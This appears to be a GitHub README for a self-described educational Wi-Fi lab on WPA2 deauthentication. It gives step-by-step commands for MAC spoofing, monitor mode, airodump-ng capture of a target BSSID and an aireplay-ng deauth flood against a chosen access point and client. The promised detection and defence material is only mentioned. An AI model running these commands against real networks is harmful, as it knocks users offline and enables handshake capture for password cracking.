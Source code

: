 # Wi-Fi Analysing Lab (Educational Only)  

⚠️ **Disclaimer**  
This script is for **educational and research purposes only**.  
- Use it **only in your own lab environment** or with **explicit written permission**.  
- The author is **not responsible** for misuse or illegal activity.  
- Unauthorized use against third-party networks is **illegal** and may result in severe penalties.  

---

##  Purpose  
This script demonstrates how **legacy Wi-Fi protocols (WEP/WPA/WPA2)** are vulnerable to **deauthentication frame injection**, which can force clients off a network.  

The goal is **not to attack real networks**, but to:  
- Understand the **weakness** of older Wi-Fi security,  
- Learn how to **set up a lab** to safely replicate the attack,  
- Explore how to **detect** such events using Wireshark/tshark,  
- Study **defensive measures** (WPA3, 802.11w PMF).  

---

##  Requirements  
- Linux (Debian/Ubuntu/Kali recommended)  
- Root privileges  
- Wireless adapter supporting **monitor mode + packet injection**  
  (e.g., Alfa AWUS adapters)  
- Tools:  
  - `airmon-ng` / `aireplay-ng` (part of aircrack-ng suite)  
  - `tshark` / `wireshark` for detection  

---

##  Lab Workflow  
1. Set up a **test Wi-Fi network** with WPA2 (router/AP you own).  
2. Place your adapter in **monitor mode**:  
   ```bash
   sudo airmon-ng start wlan0

To test the tools on **own environment** with airmon-ng this is an ethical tool i use the command for this wifi scripting 
1. open vmware edit USB setting to allow USB 3.1
2. power on Kali linux environment on vmware
3. plug in your awus wifi adapter mine is AWUS036ACH
   4.change Mac address
ifconfig [it will show mac address mac address have 6 segment btw in format of ether : mac address]
ifconfig (your wifi adapter name mine is wlan0) down [shutdonw first]
ifconfig wlan0 hw ether (change to mac address u want eg 00:11:22:33:44:55)
ifconfig wlan0 up

 5.open monitor mode
 iwconfig [chek isit in monitor mode/managed mode]
 ifconfig wlan0 down 
 airmon-ng check kill [kill internet operation that may disrupt]
 iwconfig wlan0 mode monitor mode / is this does not work usee airmon-ng start wlan0
 ifconfig wlan0 up
 iwconfig

6.analyse the wifi
airodump-ng wlan0mon / airodump-ng --band a [for 5g] if abg[for 4g and 5g but slower ] wlan0mon
airodump-ng --bssid (target network mac address) --channel (ch) --write (file) wlan0mon
ls 

7.deauth own wifi
aireplay-ng --deauth 1000 -a (target mac ap) -c  (station mac address of client )  wlan0mon
airodump-ng --bssid (mac address) --channel (channelnom) -w capture wlan0mon
 
